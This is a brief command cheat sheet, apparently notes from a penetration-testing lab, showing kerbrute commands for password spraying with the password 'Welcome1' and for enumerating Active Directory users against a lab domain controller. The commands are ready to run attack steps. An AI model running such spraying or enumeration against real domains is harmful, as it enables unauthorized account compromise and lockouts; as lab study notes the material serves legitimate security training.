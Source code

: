 

# Password Spraying
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

```

# User enumeration
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
output to file
```
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```